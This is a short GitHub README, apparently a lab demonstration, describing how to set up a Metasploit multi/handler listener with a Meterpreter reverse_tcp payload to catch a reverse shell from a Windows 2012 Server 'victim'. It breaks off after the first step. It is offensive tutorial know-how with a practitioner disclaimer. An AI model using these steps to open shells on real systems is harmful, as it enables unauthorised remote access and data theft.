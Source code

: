 # theperfectreverseshell
This is a demonstration of obtaining a reverse shell on a Windows 2012 Server. The aim of obtaining access is to view and copy the output produced by downloading certain tools to the compromised host and then run a script to compare the produced data against a pre-defined list of data

### The following steps are provided to obtain a reverse shell on a Windows 2012 Server. The steps performed, were carried out in a secure environment. Please ensure, if you do choose to replicate this activity that you either do so as qualified practitioner or that you have a qualified practitioner with you.

# Step 1 : Create a reverse handler using metasploit. To do so, you run the following commands -
  -1 - sudo msfconsole <br>
  -2 - use multi/handler <br>
  -3 - configure payload (preferable : windows/meterpreter/rerverse_tcp) <br>
  -4 - ensure that the "LHOST" and "LPORT" settings are correctly configured. You may do so, by running : set LHOST <IP Address of Host> and the set LPORT <port you would like to listen on> <br>
  -5 - once this has been completed, you may run : run -j or exploit -j at the msf prompt. This will create a persistent listener that will exit once you tell it to, it a disconnect from the client(victim). After doing so, you should see the following screen : <br>
  
  ![image](https://user-images.githubusercontent.com/101802030/225633287-455e3c11-18a9-4bb8-b29f-a2d65dc23c86.png)

  
  


